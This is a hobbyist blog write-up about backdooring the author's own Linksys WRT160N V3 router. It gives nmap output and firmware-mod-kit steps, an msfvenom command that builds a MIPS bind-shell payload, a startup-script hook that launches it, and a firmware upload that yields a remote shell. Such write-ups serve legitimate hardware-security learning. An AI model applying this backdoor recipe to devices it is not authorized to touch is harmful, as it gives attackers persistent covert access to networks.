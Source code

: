 ```yaml
---
layout: post
title: 'Modifying Router Firmware - Linksys WRT160N V3'
date: 2022-10-16
categories: exploitation
---
```

# Preface
There is a point in a man's (or woman's) life where he wakes up and decides that he needs to learn some embedded, or hardware-related cyber.
For me, it was a friend of mine who told me he had found an old router laying around.
I knew it was time.
![linksys_router](https://user-images.githubusercontent.com/53023744/196064650-137f185d-7708-45a7-8b88-ed1d16f43112.jpg)


# Goal
My goal is simple:
Find an RCE vulnerabillity (post auth), or somehow pop a reverse shell on the router.


# Attack Surface
### NMAP
I started with enumerating all of the open ports on the device with `nmap`.
This is the scan result:
```
Nmap scan report for 192.168.1.1
Host is up (0.034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Tomato WAP firmware httpd (Linksys WRT160Nv3 WAP)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=WRT160Nv3
|_http-server-header: httpd
1780/tcp  open  http    Cisco DPC3828S WiFi cable modem
10080/tcp open  amanda?
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel, cpe:/h:cisco:dpc3828s
```

After briefly researhing about each of the running services, I couldn't find anything interesting or helpful.
I decided to digg into the most attractive option - The httpd server, and the web pages it was serving to me.


### Web Server
This is the main page you get when you try to access the router:
![Main Page](https://user-images.githubusercontent.com/53023744/196054477-ca2a2870-7fa0-43ce-a4c4-577538c0d536.png)

Shortly, this is what I've tried:
* Searching for classic command injections in the ping/traceroute/etc interfaces.
	* The httpd server uses fork(), which behind the scenes calls execve().
		* How do I know that httpd uses fork()? We'll see later.
	* This means that we can't inject commands, unless we find a way to manipulate the binaries in our favor (basically a LOLBIN).
* Looking into Elon Gliksberg's [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) about a similar product - Linksys WRT54G.
	* I've found that in my router's firmware the bug via the language interface was patched.
* The comfortable way: There is a firmware upgrade interface where you can upload your own firmware.
	* If the other methods will fail, I'll go with this one.


# Firmware & Sources
I have to say, finding the right firmware was a cancerous journey.
Linksys had taken down many of the previously available firmwares from their site,
which made searching through the web a little more challenging.
Even though I tried looking into the Wayback Machine - I was stuck with the [sources](https://sourceforge.net/projects/officiallinksysfirmware/files/wrt160n/v3/) only.

At first, you might think to yourself:
"Wow! I can explore everything I want!".
Well, you'll be partially right.
Having the sources _**does**_ help.
But it doesn't always tell you to what architecture the firmware was compiled to,
and it also may not have some patches that the final firmware has.

Luckily enough, I eventually found the right firmware in some [forum](https://forum.dd-wrt.com/phpBB2/viewtopic.php?p=654578).
You can dowload it here if the site is down: [WRT160Nv3_0_03_003.zip](https://github.com/MaximAshin/MaximAshin.github.io/files/9795539/WRT160Nv3_0_03_003.zip)


# Reversing httpd - TODO!!!!!!!!!!!!!!!!!!!!!!!!!
Following the article Elon wrote, I tried to reverse the binary and search for dangerous function calls like system(), eval() etc...
Also, I tried to find mentions of nvram_get() to see if there's any unsanitized user input being used in important places.


# Let's Build a Firmware!
After spending a few hours reversing httpd, I thought to myself that I should try re-building the firmware with my own reverse-shell.
I knew this wasn't any fancy RCE exploit, but a common problem with wacky routers.
Still, I believe this is a handy trick to learn.

First, let's start by downloading the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit).
This kit allows us to extract the rootfs from the firmware, add/edit stuff in it, and re-build it.
The kit is **really easy to use**, and you always can reffer to the [docs](https://code.google.com/archive/p/firmware-mod-kit/wikis/Documentation.wiki).

The steps are like so:
```
./extract-firmware.sh ../WRT160Nv3_0_03_003.code1.bin

cd fmk/rootfs/

# Add/Modify stuff here
# Make sure to chmod 777 your-binaries if you upload any
cp ~/Desktop/my_binary_file bin/
chmod 777 bin/my_binary_file

./build-firmware.sh 

# Upload new firmware!
```

Now, before we build our custom binary reverse-shell,
we need to know what architecture we need to compile the binary to.
This can be checked by running `file` on a random binary from the rootfs/bin folder:
```
file rootfs/bin/busybox
Output:
fmk/rootfs/bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

Now let's get to the step where we build our custom reverse-shell, compiled to 32bit mipsel (mipsel == MIPS little-endian).

### msfvenom
msfvenom is a handy utility that allows us to create (common-use-case) binaries/payloads.
In my case, I searched for payloads that run on mipsel architecture.

```msfvenom -l payloads | grep mipsle```

![image](https://user-images.githubusercontent.com/53023744/196055645-ef0680da-0e41-45f0-8bd2-2f577fc7628f.png)


As we can see, I can create a simple bind shell (listens in a given port and waits for a connection).
We can create the binary itself like so:

```
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=50505 -f elf > bs_backdoor

cp bs_backdoor /fmk/rootfs/bin
chmod 777 /fmk/rootfs/bin/bs_backdoor
```

But wait!
What would make our binary run at all?
Well, bash scripts :)

In many routers, there are a some scripts that run on startup, or on some particular occasion.
We can search for such scripts like so:

```
find fmk/rootfs -name "*.sh*"
Output:
fmk/rootfs/usr/sbin/rotatelog.sh
```

We can modify the script and run our binary from there!
![image](https://user-images.githubusercontent.com/53023744/196065187-621f4102-1e10-439c-a418-1cf30a08ea7f.png)


Also, I wanted to leave a final touch on the router's main page before we re-build the firmware, so I edited index.asp:
![image](https://user-images.githubusercontent.com/53023744/196062658-4e7634b3-6292-4a3c-9a77-87b16b61cfb1.png)


Finally, I ran the `./build-firmware.sh` command and got a new firmware.
Let's upload it :)




# Victory
I went onto the firmware upgrade page, and uploaded the firmware:

![image](https://user-images.githubusercontent.com/53023744/196064210-275cd403-00f7-4c76-bb00-9d7b8945b533.png)

After a few minutes, I had a screen showing that the upgrade completed successfully!
I waited for the router to restart.

When I saw that the lights on the router stopped blinking, I browsed to the main page.
As we can see, index.asp looked a little different (hehe):

![image](https://user-images.githubusercontent.com/53023744/196062617-0f5bae8f-04d0-4d50-86ed-94cbe260061f.png)


I quickly fired up Metasploit's listener and got a connection:

![image](https://user-images.githubusercontent.com/53023744/196055470-b6343f0c-cf0c-4b13-a3a1-dd64ca53b435.png)


I have a bind shell running on the router!
TBH, It was really fun.
